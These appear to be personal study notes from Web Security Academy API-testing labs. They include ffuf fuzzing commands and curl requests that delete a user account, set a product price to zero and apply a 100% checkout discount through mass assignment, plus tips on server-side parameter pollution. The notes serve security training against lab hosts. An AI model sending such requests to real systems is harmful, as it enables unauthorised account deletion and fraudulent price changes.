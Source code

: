 ____

```bash
ffuf -w content.txt -u https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/FUZZ
```

```bash
curl https://0a6d001d0357c03183baaa2600fe0023.web-security-academy.net/api/user/carlos -X DELETE -H  
'Cookie: session=wBQWoe4x6dke6hWYkh4WO0EQ9Hs2fXSY'
```



____

To change the content type, modify the `Content-Type` header, then reformat the request body accordingly. You can use the Content type converter BApp to automatically convert data submitted within requests between XML and JSON.

```bash
curl -X PATCH https://0a8200d403af68b280a4307f00cc0063.web-security-academy.net/api/products/1/pric  
e -d '{"price":0}' -H 'Cookie: session=lzNDDGErMDObJ2YNiFeCYWPcrGi4en9m' -H 'Content-Type: application/json'
```

___

```bash
curl -X POST https://0a88007104bb78eb82061ac200d600e9.web-security-academy.net/api/checkout -H 'Coo  
kie: session=5ruUmRzO6InKX10BeH9MhoKEPxCSXjqC' -H 'Content-Type: application/json' -d '{"chosen_products":[{"product_id":"1",  
"quantity":1}],"chosen_discount":{"percentage":100}}' -i
```

____
### server-side parameter pollution

Place query syntax characters like `#`, `&`, and `=` in your input and observe how the application responds

![[Pasted image 20250123184928.png]]

![[Pasted image 20250123185101.png]]

`field=email`is a valid field 

